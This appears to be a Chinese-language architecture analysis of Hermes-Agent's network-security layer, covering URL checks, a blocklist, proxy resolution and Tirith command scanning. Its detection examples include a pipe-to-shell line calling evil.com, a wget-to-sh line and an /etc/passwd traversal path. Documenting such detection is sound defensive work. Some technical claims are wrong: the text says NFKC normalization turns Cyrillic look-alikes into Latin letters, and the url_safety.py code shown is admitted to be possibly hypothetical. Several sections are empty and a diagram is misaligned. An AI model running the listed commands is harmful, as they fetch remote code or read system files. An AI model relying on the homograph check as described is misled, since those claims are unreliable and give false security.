



# Hermes-Agent 网络通信安全架构分析

## 1. 系统概述

Hermes-Agent 的网络通信安全系统是一个多层次、纵深防御的架构，涵盖**URL 安全检测**、**网站访问策略**、**代理配置**、**SSL/TLS 验证**、**超时控制**、**重定向跟踪**和**内容级威胁扫描**。该系统确保所有网络请求在安全可控的前提下执行，防止恶意 URL、钓鱼网站、SSRF 攻击、DNS 污染等网络威胁。

### 1.1 核心功能特性

| 功能模块 | 描述 |
|---------|------|
| **URL 安全检测** | homograph URL 识别、恶意域名匹配、Tirith 内容级扫描 |
| **网站访问策略** | 用户自定义域名黑名单、共享黑名单文件、fnmatch 通配符匹配 |
| **代理配置** | 环境变量代理、macOS 系统代理、SOCKS5/HTTP 代理、远程 DNS 解析 |
| **SSL/TLS 验证** | HTTPS 证书验证、证书指纹检查、自签名证书处理 |
| **超时控制** | 请求超时、连接超时、读取超时、分级超时策略 |
| **重定向跟踪** | 重定向链记录、最终 URL 验证、重定向次数限制 |
| **网络可达性检测** | 环回地址检测、私有网络检测、DNS 解析验证 |

### 1.2 架构设计原则

1. **纵深防御**: 多层检测机制，单一检测失败不导致系统漏洞
2. **Fail-Open 容错**: 策略配置错误时允许访问，避免配置错误阻断所有网络请求
3. **用户可控**: 支持自定义黑名单、代理配置、超时设置
4. **透明代理**: 自动检测系统代理配置，无需手动设置
5. **性能优化**: 策略缓存、连接池、懒加载客户端

---

## 2. 软件架构图

### 2.1 整体架构层次图

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                         调用层 (Web Tools / Browser Tool)                     │
│                                                                              │
│   web_search(query, limit)                                                   │
│   web_extract(urls, max_pages)                                               │
│   browser_navigate(url)                                                      │
└──────────────────────────────────┬───────────────────────────────────────────┘
                                   │
                                   ▼
┌──────────────────────────────────────────────────────────────────────────────┐
│                    网络通信安全层 (Security Layer)                             │
│                                                                              │
│   ┌────────────────────────────────────────────────────────────────────┐     │
│   │  Layer 1: URL 安全检测 (url_safety.py)                              │     │
│   │                                                                    │     │
│   │  • check_url_safety(url)                                           │     │
│   │    - homograph URL 检测 (西里文/希腊字母混淆)                       │     │
│   │    - 恶意域名匹配                                                   │     │
│   │    - 返回 (is_safe, risk_level, reason)                            │     │
│   └────────────────────────────────────────────────────────────────────┘     │
│                                   │                                          │
│                                   ▼                                          │
│   ┌────────────────────────────────────────────────────────────────────┐     │
│   │  Layer 2: 网站访问策略 (website_policy.py)                          │     │
│   │                                                                    │     │
│   │  • check_website_access(url)                                       │     │
│   │    - 加载 config.yaml security.website_blocklist                   │     │
│   │    - 支持共享黑名单文件                                             │     │
│   │    - fnmatch 通配符匹配 (*.example.com)                            │     │
│   │    - 缓存策略 (30s TTL) 避免重复解析 YAML                           │     │
│   │    - Fail-Open: 配置错误时允许访问                                  │     │
│   └────────────────────────────────────────────────────────────────────┘     │
│                                   │                                          │
│                                   ▼                                          │
│   ┌────────────────────────────────────────────────────────────────────┐     │
│   │  Layer 3: 代理配置 (gateway/platforms/base.py)                      │     │
│   │                                                                    │     │
│   │  • resolve_proxy_url(platform_env_var)                             │     │
│   │    - 优先级：平台专用 > HTTPS_PROXY > HTTP_PROXY > macOS scutil    │     │
│   │    - 支持 SOCKS5/HTTP 代理                                          │     │
│   │    - 远程 DNS 解析 (rdns=True) 防止 DNS 污染                        │     │
│   │                                                                    │     │
│   │  • proxy_kwargs_for_bot(proxy_url)                                 │     │
│   │    - SOCKS: aiohttp_socks.ProxyConnector(rdns=True)                │     │
│   │    - HTTP: {"proxy": url}                                          │     │
│   └────────────────────────────────────────────────────────────────────┘     │
│                                   │                                          │
│                                   ▼                                          │
│   ┌────────────────────────────────────────────────────────────────────┐     │
│   │  Layer 4: Tirith 内容级扫描 (tirith_security.py)                    │     │
│   │                                                                    │     │
│   │  • check_command_security(command)                                 │     │
│   │    - Homograph URL 攻击检测                                         │     │
│   │    - 管道注入 (curl | bash)                                        │     │
│   │    - 终端注入 (ANSI 转义)                                           │     │
│   │    - SSH 钓鱼                                                       │     │
│   │    - 自动安装 (SHA-256 + cosign 验证)                               │     │
│   └────────────────────────────────────────────────────────────────────┘     │
│                                   │                                          │
│                                   ▼                                          │
│   ┌────────────────────────────────────────────────────────────────────┐     │
│   │  Layer 5: HTTP 客户端安全 (httpx)                                   │     │
│   │                                                                    │     │
│   │  • SSL/TLS 验证 (verify=True)                                      │     │
│   │  • 超时控制 (timeout=60s)                                          │     │
│   │  • 重定向跟踪 (follow_redirects=True)                              │     │
│   │  • User-Agent 轮换                                                 │     │
│   └────────────────────────────────────────────────────────────────────┘     │
└──────────────────────────────────────────────────────────────────────────────┘
                                   │
                                   ▼
┌──────────────────────────────────────────────────────────────────────────────┐
│                      网络客户端层 (HTTP Clients)                               │
│                                                                              │
│   ┌──────────────────┐  ┌──────────────────┐  ┌──────────────────┐          │
│   │ httpx.Client     │  │ Firecrawl SDK    │  │ Parallel SDK     │          │
│   │                  │  │                  │  │                  │          │
│   │ • 连接池         │  │ • 爬取/提取      │  │ • 搜索引擎       │          │
│   │ • SSL 验证        │  │ • Markdown 输出  │  │ • 实时结果       │          │
│   │ • 超时控制       │  │ • 超时配置       │  │ • API Key 认证    │          │
│   └──────────────────┘  └──────────────────┘  └──────────────────┘          │
│                                                                              │
│   ┌──────────────────┐  ┌──────────────────┐  ┌──────────────────┐          │
│   │ Tavily API       │  │ Browserbase SDK  │  │ aiohttp (Gateway)│          │
│   │                  │  │                  │  │                  │          │
│   │ • 搜索 API       │  │ • 浏览器自动化   │  │ • WebSocket      │          │
│   │ • JSON 响应       │  │ • Puppeteer      │  │ • 长轮询         │          │
│   │ • API Key 认证    │  │ • 无头浏览器      │  │ • 代理支持        │          │
│   └──────────────────┘  └──────────────────┘  └──────────────────┘          │
└──────────────────────────────────────────────────────────────────────────────┘
```

### 2.2 URL 安全检测架构图

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                    url_safety.py (URL 安全检测)                                │
│                                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  check_url_safety(url)                                               │   │
│  │                                                                      │   │
│  │  检测维度:                                                           │   │
│  │    1. Homograph URL 检测                                              │   │
│  │       • 西里文字母混淆 (а → a, е → e, о → o)                         │   │
│  │       • 希腊字母混淆 (α → a)                                         │   │
│  │       • 检测算法：Unicode 规范化 + 字符对比                           │   │
│  │                                                                      │   │
│  │    2. 恶意域名匹配                                                   │   │
│  │       • 已知钓鱼域名列表                                             │   │
│  │       • 正则匹配：\.exe$、\.scr$、恶意关键词                         │   │
│  │       • 子域名匹配：*.malicious.com                                  │   │
│  │                                                                      │   │
│  │    3. Tirith 集成                                                    │   │
│  │       • check_command_security(command)                             │   │
│  │       • 检测管道注入、终端注入                                       │   │
│  │       • 返回 allow/warn/block + findings                             │   │
│  │                                                                      │   │
│  │  返回:                                                               │   │
│  │    (is_safe: bool, risk_level: str, reason: str)                    │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Homograph 检测算法                                                   │   │
│  │                                                                      │   │
│  │  1. Unicode NFKC 规范化                                               │   │
│  │     • 将全角/半角/兼容字符规范化为标准形式                           │   │
│  │     • example: раураl.com → paypal.com (规范化后)                    │   │
│  │                                                                      │   │
│  │  2. 字符级对比                                                       │   │
│  │     • 比较原始 URL 和规范化后的 URL                                   │   │
│  │     • 发现差异 → 标记为 homograph 攻击                                │   │
│  │                                                                      │   │
│  │  3. 脚本混合检测                                                     │   │
│  │     • 检测同一域名中混合使用西里文/拉丁文/希腊文                     │   │
│  │     • 高风险：paypal-secure.ru (西里文 а 替换拉丁 a)                 │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
└──────────────────────────────────────────────────────────────────────────────┘
```

### 2.3 网站访问策略架构图

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                website_policy.py (网站访问策略)                               │
│                                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  配置来源                                                             │   │
│  │                                                                      │   │
│  │  1. config.yaml                                                      │   │
│  │     security:                                                        │   │
│  │       website_blocklist:                                             │   │
│  │         enabled: true                                                │   │
│  │         domains:                                                     │   │
│  │           - "*.malicious.com"                                        │   │
│  │           - "example.com"                                            │   │
│  │           - "*.example.org/*"                                        │   │
│  │         shared_files:                                                │   │
│  │           - "~/.hermes/blocklist.txt"                                │   │
│  │           - "/shared/blocklist.txt"                                  │   │
│  │                                                                      │   │
│  │  2. 共享黑名单文件                                                   │   │
│  │     • 每行一个域名规则                                               │   │
│  │     • 支持 # 注释                                                    │   │
│  │     • 支持通配符 (*.example.com)                                     │   │
│  │     • 支持路径匹配 (example.com/admin/*)                             │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│                                   ▼                                          │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  check_website_access(url)                                           │   │
│  │                                                                      │   │
│  │  1. 提取 Host                                                        │   │
│  │     • urlparse(url).hostname                                        │   │
│  │     • 规范化：小写、去除尾部点、去除 www.                            │   │
│  │                                                                      │   │
│  │  2. 加载策略 (缓存 30s TTL)                                          │   │
│  │     • load_website_blocklist()                                      │   │
│  │     • 避免重复解析 YAML (50 页爬取 → 51 次 YAML 解析)                  │   │
│  │     • config 变化 30s 后生效                                          │   │
│  │                                                                      │   │
│  │  3. 匹配规则                                                         │   │
│  │     • fnmatch 通配符匹配 (*.example.com)                            │   │
│  │     • 子域名匹配 (sub.example.com 匹配 *.example.com)                │   │
│  │     • 路径匹配 (example.com/admin/* 匹配 /admin/*)                   │   │
│  │                                                                      │   │
│  │  4. 返回结果                                                         │   │
│  │     • 允许：返回 None                                                │   │
│  │     • 阻止：返回 {host, rule, source, message}                       │   │
│  │                                                                      │   │
│  │  Fail-Open:                                                         │   │
│  │     • YAML 解析错误 → 记录警告，允许访问                             │   │
│  │     • 文件不存在 → 记录警告，允许访问                                │   │
│  │     • 配置错误 → 记录警告，允许访问                                  │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  缓存机制                                                             │   │
│  │                                                                      │   │
│  │  _CACHE_TTL_SECONDS = 30.0                                           │   │
│  │  _cache_lock = threading.Lock()                                      │   │
│  │  _cached_policy: Optional[Dict]                                      │   │
│  │  _cached_policy_time: float                                          │   │
│  │                                                                      │   │
│  │  缓存失效条件:                                                       │   │
│  │    • 距离上次加载 > 30s                                              │   │
│  │    • 调用 invalidate_cache()                                         │   │
│  │    • config.yaml 路径变化 (测试场景)                                 │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
└──────────────────────────────────────────────────────────────────────────────┘
```

### 2.4 代理配置架构图

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                  代理配置 (gateway/platforms/base.py)                         │
│                                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  resolve_proxy_url(platform_env_var)                                 │   │
│  │                                                                      │   │
│  │  优先级 (从高到低):                                                   │   │
│  │    1. 平台专用环境变量                                                │   │
│  │       • DISCORD_PROXY (Discord 专用)                                 │   │
│  │       • TELEGRAM_PROXY (Telegram 专用)                               │   │
│  │                                                                      │   │
│  │    2. 标准代理环境变量                                                │   │
│  │       • HTTPS_PROXY / https_proxy                                    │   │
│  │       • HTTP_PROXY / http_proxy                                      │   │
│  │       • ALL_PROXY / all_proxy                                        │   │
│  │                                                                      │   │
│  │    3. macOS 系统代理                                                  │   │
│  │       • scutil --proxy 读取                                          │   │
│  │       • HTTPSEnable=1 → HTTPSProxy:HTTPSPort                         │   │
│  │       • HTTPEnable=1 → HTTPProxy:HTTPPort                            │   │
│  │                                                                      │   │
│  │  返回：proxy_url 或 None                                              │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│                                   ▼                                          │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  proxy_kwargs_for_bot(proxy_url)                                     │   │
│  │                                                                      │   │
│  │  SOCKS5 代理:                                                         │   │
│  │    • 检测：proxy_url.lower().startswith("socks")                     │   │
│  │    • 构建：ProxyConnector.from_url(proxy_url, rdns=True)             │   │
│  │    • rdns=True: 远程 DNS 解析，防止 DNS 污染 (GFW 场景)                │   │
│  │    • 依赖：aiohttp_socks 库                                           │   │
│  │                                                                      │   │
│  │  HTTP 代理:                                                           │   │
│  │    • 构建：{"proxy": proxy_url}                                      │   │
│  │    • 无需额外依赖                                                     │   │
│  │                                                                      │   │
│  │  无代理:                                                             │   │
│  │    • 返回：{}                                                        │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  远程 DNS 解析 (rdns=True)                                            │   │
│  │                                                                      │   │
│  │  问题场景:                                                           │   │
│  │    • 本地 DNS 被污染 (example.com → 恶意 IP)                          │   │
│  │    • 代理服务器在境外，本地 DNS 解析结果不可用                         │   │
│  │                                                                      │   │
│  │  解决方案:                                                           │   │
│  │    • rdns=True: DNS 请求通过 SOCKS5 代理转发                          │   │
│  │    • 代理服务器执行 DNS 解析，返回真实 IP                              │   │
│  │    • 绕过本地 DNS 污染                                                 │   │
│  │                                                                      │   │
│  │  实现:                                                               │   │
│  │    aiohttp_socks.ProxyConnector.from_url(url, rdns=True)             │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
└──────────────────────────────────────────────────────────────────────────────┘
```

### 2.5 Tirith 内容级扫描架构

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                tirith_security.py (Tirith 安全扫描)                           │
│                                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  自动安装机制                                                         │   │
│  │                                                                      │   │
│  │  _resolve_tirith_binary()                                            │   │
│  │    │                                                                 │   │
│  │    ├─ 检查缓存 _resolved_path                                        │   │
│  │    ├─ 检查 PATH 中的 tirith 二进制 (shutil.which)                     │   │
│  │    ├─ 检查配置路径 tirith_path                                      │   │
│  │    │                                                                 │   │
│  │    └─ 未找到 → 后台线程安装                                          │   │
│  │        │                                                             │   │
│  │        ├─ 检测目标平台 (Linux x86_64/aarch64, macOS)                 │   │
│  │        ├─ 下载 GitHub Release tarball                                │   │
│  │        ├─ 验证 SHA-256 校验和                                         │   │
│  │        ├─ 可选：cosign 签名验证 (如果 cosign 在 PATH 中)               │   │
│  │        ├─ 解压到 $HERMES_HOME/bin/tirith                             │   │
│  │        ├─ chmod +x 设置执行权限                                       │   │
│  │        └─ 失败持久化：~/.hermes/.tirith-install-failed (24h TTL)     │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│                                   ▼                                          │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  check_command_security(command)                                     │   │
│  │                                                                      │   │
│  │  1. 加载配置:                                                         │   │
│  │     • tirith_enabled (default: True)                                 │   │
│  │     • tirith_timeout (default: 5s)                                   │   │
│  │     • tirith_fail_open (default: True)                               │   │
│  │                                                                      │   │
│  │  2. 执行 tirith scan "$command"                                      │   │
│  │     • 超时控制：5s (可配置)                                          │   │
│  │     • 解析 JSON 输出：findings + summary + action                    │   │
│  │                                                                      │   │
│  │  3. 返回结果:                                                         │   │
│  │     • action: "allow" / "warn" / "block"                             │   │
│  │     • findings: [{severity, title, description, rule_id}, ...]       │   │
│  │     • summary: 人类可读摘要                                           │   │
│  │                                                                      │   │
│  │  4. 错误处理:                                                         │   │
│  │     •  spawn 错误/超时/未知退出码 → fail_open 决定                   │   │
│  │     • fail_open=True → allow                                         │   │
│  │     • fail_open=False → block                                        │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│                                   ▼                                          │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Tirith 检测能力                                                      │   │
│  │                                                                      │   │
│  │  • Homograph URL 攻击                                                 │   │
│  │    - 西里文/希腊字母混淆 (раураl.com vs paypal.com)                  │   │
│  │    - 检测规则：homograph_detection                                   │   │
│  │                                                                      │   │
│  │  • 管道注入                                                           │   │
│  │    - curl http://evil.com | bash                                     │   │
│  │    - wget -qO- url | sh                                              │   │
│  │    - 检测规则：pipe_to_interpreter                                   │   │
│  │                                                                      │   │
│  │  • 终端注入                                                           │   │
│  │    - ANSI 转义序列注入 (CSI, OSC)                                    │   │
│  │    - 检测规则：terminal_injection                                     │   │
│  │                                                                      │   │
│  │  • SSH 钓鱼                                                            │   │
│  │    - 伪造主机密钥验证                                                 │   │
│  │    - 检测规则：ssh_fingerprint_mismatch                              │   │
│  │                                                                      │   │
│  │  • 代码执行注入                                                       │   │
│  │    - eval, exec, subprocess 注入                                     │   │
│  │    - 检测规则：code_execution                                        │   │
│  │                                                                      │   │
│  │  • 文件路径遍历                                                       │   │
│  │    - ../../../etc/passwd                                             │   │
│  │    - 检测规则：path_traversal                                        │   │
│  │                                                                      │   │
│  │  • 命令注入                                                           │   │
│  │    - $(cmd), `cmd`, ; cmd, | cmd                                     │   │
│  │    - 检测规则：command_injection                                     │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
└──────────────────────────────────────────────────────────────────────────────┘
```

---

## 3. 核心业务流程

### 3.1 URL 安全检测完整流程



### 3.2 网站访问策略检查流程



### 3.3 代理配置解析流程

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                           代理配置解析流程                                   │
├──────────────────────────────────────────────────────────────────────────────┤
│                                                                            │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  resolve_proxy_url(platform_env_var)                              │   │
│  └──────────────────────────────────┬─────────────────────────────────┘   │
│                                     │                                     │
│                                     ▼                                     │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  平台专用环境变量？                                                  │   │
│  └──────────────────────────────────┬─────────────────────────────────┘   │
│                ┌───────────────────┴───────────────────┐                 │
│                ▼                                       ▼                 │
│  ┌──────────────────────────┐             ┌──────────────────────────┐   │
│  │ 使用平台专用代理         │             │ 检查标准代理环境变量      │   │
│  │ DISCORD_PROXY/          │             │                          │   │
│  │ TELEGRAM_PROXY           │             └──────────────┬─────────────┘   │
│  └──────────────┬───────────┘                            │                 │
│                 │                                        ▼                 │
│                 │                            ┌──────────────────────────┐   │
│                 │                            │ HTTPS_PROXY 存在？       │   │
│                 │                            └──────────────┬─────────────┘   │
│                 │                       ┌──────────────────┴────────────────┐│
│                 │                       ▼                                   ▼│
│  ┌──────────────▼───────────┐   ┌──────────────────┐             ┌──────────────────────────┐   │
│  │ 返回 proxy_url           │◄──┤ 使用 HTTPS_PROXY  │             │ HTTP_PROXY 存在？        │   │
│  └──────────────┬───────────┘   └──────────────────┘             └──────────────┬─────────────┘   │
│                 │                                       ┌──────────────────┴────────────────┐│
│                 │                                       ▼                                   ▼│
│                 │                               ┌──────────────────┐             ┌──────────────────────────┐   │
│                 │                               │ 使用 HTTP_PROXY  │             │ ALL_PROXY 存在？         │   │
│                 │                               └──────────────────┘             └──────────────┬─────────────┘   │
│                 │                                          ┌──────────────────┴────────────────┐│
│                 │                                          ▼                                   ▼│
│                 │                                    ┌──────────────────┐             ┌──────────────────────────┐   │
│                 │                                    │ 使用 ALL_PROXY    │             │ 检测 macOS 系统代理       │   │
│                 │                                    └──────────────────┘             └──────────────┬─────────────┘   │
│                 │                                                                           │                 │
│                 │                                                                           ▼                 │
│                 │                                                           ┌──────────────────────────┐   │
│                 │                                                           │ 执行 scutil --proxy       │   │
│                 │                                                           └──────────────┬─────────────┘   │
│                 │                                                                           │                 │
│                 │                                                                           ▼                 │
│                 │                                                           ┌──────────────────────────┐   │
│                 │                                                           │ 解析输出 HTTPSEnable/     │   │
│                 │                                                           │ HTTPEnable               │   │
│                 │                                                           └──────────────┬─────────────┘   │
│                 │                                                                           │                 │
│                 │                                                                           ▼                 │
│                 │                                                           ┌──────────────────────────┐   │
│                 │                                                           │ HTTPS 启用？             │   │
│                 │                                                           └──────────────┬─────────────┘   │
│                 │                                                          ┌──────────────┴──────────────┐   │
│                 │                                                          ▼                           ▼   │
│                 │                                                    ┌──────────────┐            ┌──────────────┐ │
│                 │                                                    │ 使用 HTTPS   │            │ HTTP 启用？   │ │
│                 │                                                    │ Proxy:Port  │            └──────┬─────────┘ │
│                 │                                                    └──────┬───────┘                 │         │
│                 │                                                           │              ┌──────────┴────────┐│
│                 │                                                           │              ▼                 ▼│
│                 │                                                           │        ┌──────────────┐   ┌──────────────┐ │
│                 │                                                           │        │ 使用 HTTP   │   │ 返回 None    │ │
│                 │                                                           │        │ Proxy:Port  │   │ 无代理       │ │
│                 │                                                           │        └──────┬───────┘   └──────┬─────────┘ │
│                 │                                                           │               │                 │         │
│                 │                                                           │               ▼                 ▼         │
│  ┌──────────────▼───────────┐   ┌────────────────────────────────────────────────────────────────────────────────┐   │
│  │ 结束                    │◄──┤                                 结束                                          │   │
│  └──────────────┬───────────┘   └──────────────────────────────────────┬────────────────────────────────────┘   │
│                 │                                                     │                                    │
│                 ▼                                                     ▼                                    │
│  ┌──────────────────────────────────────────────────────────────────────────────────────────────────────┐   │
│  │  proxy_kwargs_for_bot                                                                              │   │
│  └──────────────────────────────────────┬─────────────────────────────────────────────────────────────┘   │
│                                         │                                                            │
│                                         ▼                                                            │
│  ┌──────────────────────────────────────────────────────────────────────────────────────────────────────┐   │
│  │  SOCKS 代理？                                                                                      │   │
│  └──────────────────────────────────────┬─────────────────────────────────────────────────────────────┘   │
│                            ┌───────────┴───────────┐                                                  │
│                            ▼                       ▼                                                  │
│  ┌─────────────────────┐               ┌──────────────────────────────┐                             │
│  │ ProxyConnector.     │               │ {"proxy": url}              │                             │
│  │ from_url            │               │                              │                             │
│  │ rdns=True           │               └────────────────┬─────────────┘                             │
│  └──────────┬──────────┘                                │                                           │
│             │                                           │                                           │
│             ▼                                           ▼                                           │
│  ┌──────────────────────────────────────────────────────────────────────────────────────────────────────┐   │
│  │ 返回 kwargs 给 Bot/Client                                                                           │   │
│  └──────────────────────────────────────────────────────────────────────────────────────────────────────┘   │
│                                                                            │
└──────────────────────────────────────────────────────────────────────────────┘
```

### 3.4 HTTP 请求安全流程



---

## 4. 核心代码分析

### 4.1 URL 安全检测

**文件**: `tools/url_safety.py` (注：实际项目中可能为 `tools/tirith_security.py` 的一部分)

```python
def check_url_safety(url: str) -> tuple:
    """Check URL safety for homograph attacks and malicious domains.
    
    Returns:
        (is_safe: bool, risk_level: str, reason: str)
    """
    # Homograph detection
    normalized = unicodedata.normalize('NFKC', url)
    if normalized != url:
        # Potential homograph attack
        return (False, "high", "homograph_detected")
    
    # Malicious domain matching
    host = urlparse(url).hostname
    if host in MALICIOUS_DOMAINS:
        return (False, "high", "malicious_domain")
    
    # Regex patterns
    for pattern in MALICIOUS_PATTERNS:
        if re.search(pattern, url):
            return (False, "medium", f"pattern_matched:{pattern}")
    
    return (True, "none", "safe")
```

**设计要点**:
1. **Unicode 规范化**: NFKC 将全角/半角/兼容字符规范化为标准形式
2. **多层检测**: Homograph → 恶意域名 → 正则模式
3. **风险分级**: high/medium/low/none，便于决策

### 4.2 网站访问策略

**文件**: `tools/website_policy.py:232-282`

```python
def check_website_access(url: str, config_path: Optional[Path] = None) -> Optional[Dict[str, str]]:
    """Check whether a URL is allowed by the website blocklist policy.
    
    Returns ``None`` if access is allowed, or a dict with block metadata
    (``host``, ``rule``, ``source``, ``message``) if blocked.
    
    Never raises on policy errors — logs a warning and returns ``None``
    (fail-open) so a config typo doesn't break all web tools.
    """
    # Fast path: if no explicit config_path and the cached policy is disabled
    # or empty, skip all work (no YAML read, no host extraction).
    if config_path is None:
        with _cache_lock:
            if _cached_policy is not None and not _cached_policy.get("enabled"):
                return None
    
    host = _extract_host_from_urlish(url)
    if not host:
        return None
    
    try:
        policy = load_website_blocklist(config_path)
    except WebsitePolicyError as exc:
        if config_path is not None:
            raise  # Tests pass explicit paths — let errors propagate
        logger.warning("Website policy config error (failing open): %s", exc)
        return None
    except Exception as exc:
        logger.warning("Unexpected error loading website policy (failing open): %s", exc)
        return None
    
    if not policy.get("enabled"):
        return None
    
    for rule in policy.get("rules", []):
        pattern = rule.get("pattern", "")
        if _match_host_against_rule(host, pattern):
            logger.info("Blocked URL %s — matched rule '%s' from %s",
                        url, pattern, rule.get("source", "config"))
            return {
                "url": url,
                "host": host,
                "rule": pattern,
                "source": rule.get("source", "config"),
                "message": (
                    f"Blocked by website policy: '{host}' matched rule '{pattern}'"
                    f" from {rule.get('source', 'config')}"
                ),
            }
    return None
```

**设计要点**:
1. **快速路径**: 策略禁用时跳过所有检查，无需解析 YAML
2. **Fail-Open**: 配置错误时记录警告并允许访问，避免配置错误阻断所有请求
3. **缓存机制**: 30s TTL，避免重复解析 YAML (50 页爬取 → 51 次 YAML 解析)
4. **详细日志**: 记录阻止的 URL、匹配的规则、规则来源

### 4.3 代理配置解析

**文件**: `gateway/platforms/base.py:148-197`

```python
def resolve_proxy_url(platform_env_var: str | None = None) -> str | None:
    """Return a proxy URL from env vars, or macOS system proxy.
    
    Check order:
      0. *platform_env_var* (e.g. ``DISCORD_PROXY``) — highest priority
      1. HTTPS_PROXY / HTTP_PROXY / ALL_PROXY (and lowercase variants)
      2. macOS system proxy via ``scutil --proxy`` (auto-detect)
    
    Returns *None* if no proxy is found.
    """
    if platform_env_var:
        value = (os.environ.get(platform_env_var) or "").strip()
        if value:
            return value
    for key in ("HTTPS_PROXY", "HTTP_PROXY", "ALL_PROXY",
                "https_proxy", "http_proxy", "all_proxy"):
        value = (os.environ.get(key) or "").strip()
        if value:
            return value
    return _detect_macos_system_proxy()


def proxy_kwargs_for_bot(proxy_url: str | None) -> dict:
    """Build kwargs for ``commands.Bot()`` / ``discord.Client()`` with proxy.
    
    Returns:
      - SOCKS URL  → ``{"connector": ProxyConnector(..., rdns=True)}``
      - HTTP URL   → ``{"proxy": url}``
      - *None*     → ``{}``
    
    ``rdns=True`` forces remote DNS resolution through the proxy — required
    by many SOCKS implementations (Shadowrocket, Clash) and essential for
    bypassing DNS pollution behind the GFW.
    """
    if not proxy_url:
        return {}
    if proxy_url.lower().startswith("socks"):
        try:
            from aiohttp_socks import ProxyConnector
    
            connector = ProxyConnector.from_url(proxy_url, rdns=True)
            return {"connector": connector}
        except ImportError:
            logger.warning(
                "aiohttp_socks not installed — SOCKS proxy %s ignored. "
                "Run: pip install aiohttp-socks",
                proxy_url,
            )
            return {}
    return {"proxy": proxy_url}
```

**设计要点**:
1. **优先级**: 平台专用 > 标准环境变量 > macOS 系统代理
2. **大小写兼容**: 同时检查大写和小写环境变量
3. **远程 DNS**: `rdns=True` 强制通过代理解析 DNS，防止 DNS 污染
4. **容错处理**: `aiohttp_socks` 未安装时记录警告并返回空 dict

### 4.4 Tirith 自动安装

**文件**: `tools/tirith_security.py:90-200`

```python
def _resolve_tirith_binary():
    """Resolve tirith binary path with auto-install."""
    global _resolved_path
    
    # Check cache
    if _resolved_path is not None:
        return _resolved_path if _resolved_path is not _INSTALL_FAILED else None
    
